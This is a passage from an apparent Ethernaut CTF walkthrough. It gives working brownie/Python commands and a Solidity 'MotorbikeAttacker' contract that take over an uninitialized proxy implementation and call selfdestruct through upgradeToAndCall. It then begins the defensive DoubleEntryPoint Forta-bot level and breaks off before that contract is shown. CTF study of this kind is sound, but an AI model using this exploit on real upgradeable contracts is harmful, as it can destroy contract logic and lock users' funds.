     slot = '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc'
    engineAddress = '0x' + web3.eth.getStorageAt(instance, slot).hex()[26:]
    engine = interface.engine(engineAddress)

    #call initialize()
    engine.initialize({'from': player})

    #check that you're the upgrader - should return your address
    engine.upgrader()

Now we can use `upgradeToAndCall` to change the implementation to our own malicious contract and call its `selfdestruct`.

Our contract:

    //SPDX-License-Identifier: MIT

    pragma solidity ^0.8.0;

    interface engine {
        function initialize() external;
        function upgrader() external view returns (address);
        function upgradeToAndCall(address newImplementation, bytes memory data) external payable;
    }

    contract MotorbikeAttacker {
        function attack() external {
            selfdestruct(payable(tx.origin));
        }
    }

Deploy it and upgrade with an encoded call to `attack`:

    attacker = MotorbikeAttacker.deploy({'from': player})
    payload = attacker.attack.encode_input()
    engine.upgradeToAndCall(attacker.address, payload, {'from': player})

    #check for success - should fail
    engine.upgrader()

Submit the level and move on!

## 27. DoubleEntryPoint

This level isn't that generally applicable as it seems to be more an ad for Forta than a challenge. I'm not particularly familiar with Forta, but you can do more research if you choose to. 

The idea is to set up a DetectionBot contract that will monitor the CryptoVault for activity - specifically any calls of its `sweepToken` function. 

We need our bot to implement a `handleTransaction` function so that it can be called by the `Forta` contract's `notify` function. Forta will call this each time a `delegateTransfer` call is made. The only time we actually need to raise an alert is if the caller of `delegateTransfer` is the CryptoVault contract, which means that it's being called within the `sweepToken` function. In this case, its third parameter `origSender` will be the CryptoVault's address.

Our contract:
